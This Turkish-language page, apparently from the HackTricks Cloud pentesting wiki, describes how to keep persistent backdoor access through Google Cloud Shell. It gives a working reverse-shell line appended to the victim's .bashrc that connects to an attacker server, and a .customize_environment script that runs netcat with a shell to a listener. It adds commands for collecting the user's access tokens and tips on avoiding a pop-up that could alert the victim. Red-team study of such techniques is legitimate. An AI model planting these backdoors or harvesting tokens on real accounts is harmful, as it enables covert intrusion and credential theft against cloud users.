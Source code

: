 # GCP - Cloud Shell Kalıcılığı

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kalıcı Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/), tarayıcınızdan doğrudan bulut kaynaklarınıza komut satırı erişimi sağlar ve herhangi bir ek maliyet olmadan.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsolun saldırganlar için bazı ilginç yetenekleri vardır:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tam yetkilendirilmiş bir Cloud Shell örneğine erişebilir (Hizmet Hesapları, org'un Sahipleri bile olabilir).
2. Söz konusu örnek, **en az 120 gün boyunca ana dizinini koruyacaktır** eğer hiçbir etkinlik olmazsa.
3. Bu örneğin etkinliğini izlemek için bir organizasyonun **yetenekleri yoktur**.

Bu temelde bir saldırgan, kullanıcının ana dizinine bir arka kapı yerleştirebilir ve kullanıcı en az 120 günde bir GC Shell'e bağlandığı sürece arka kapı hayatta kalacak ve saldırgan her çalıştırıldığında bir kabuk alacaktır sadece şunu yaparak:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde varsa **`.customize_environment`** adında başka bir dosya bulunmaktadır ve bu dosya, kullanıcının **bulut kabuğuna** her eriştiğinde **çalıştırılacaktır** (önceki teknikte olduğu gibi). Kullanıcı "sık sık" bulut kabuğunu kullandığı sürece kalıcılığı sürdürmek için önceki arka kapıyı veya aşağıdakine benzer birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Önemli:** Bir kimlik doğrulama gerektiren işlem **ilk kez gerçekleştirildiğinde**, kullanıcının tarayıcısında bir yetkilendirme penceresi belirir. Bu pencerenin kabul edilmesi gerekmektedir ki komut çalışabilsin. Beklenmeyen bir pencere belirirse, şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut kabuğundan (`cloud shell`) (saldırgan olarak) `gcloud projects list` komutunu çalıştırdıktan sonra tarayıcının kullanıcı oturumunda görünen pop-up'tır:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut kabuğunu aktif olarak kullandıysa, pop-up belirmeyecek ve kullanıcının **token'larını toplayabilirsiniz**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temel olarak, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarını eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (google cloud shell'in IP'sini size söyler)

Ancak daha fazla bilgiyi [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinde bulabilirsiniz.

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
